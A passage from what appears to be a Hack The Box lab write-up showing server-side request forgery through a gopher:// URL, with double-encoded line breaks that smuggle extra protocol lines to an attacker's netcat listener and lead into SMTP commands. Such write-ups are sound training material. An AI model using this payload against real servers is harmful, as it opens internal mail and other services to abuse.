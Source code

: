 
I can try to add newlines with `%0d%0a`, but it doesn’t work. However, a
second URL encode does. So:

    
    
    /index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test%250d%250asecond%20line
    

Leads to:

    
    
    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.225 34614
    this is a test
    second line
    

This means I can effectively interact with whatever service I want using GET
requests. I’ve shown examples of Gopher in the past with
[Travel](/2020/09/12/htb-travel.html#interaction-with-memcache) (interacting
with `memcache`), [Laser](/2020/12/19/htb-laser.html#strategy) (sending a Solr
exploit), and [Jarmis](/2021/09/27/htb-jarmis.html#strategy-1) (exploiting
[OMIGod](https://github.com/horizon3ai/CVE-2021-38647)).

#### SMTP POC

I know from the clues before that I want to interact with SMTP on 25. The
[SMTP
protocol](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol#Protocol_overview)
has some basic commands for interacting. I’ve shown interacting with it over
`telnet` or `nc` before (for example in [Attended](/2021/05/08/htb-
attended.html#smtp---tcp-25)).

The simplest command is `QUIT`, which ends the session. I’ll try sending that,
followed by a newline:

![image-20231024173735715](../img/image-20231024173735715.png)
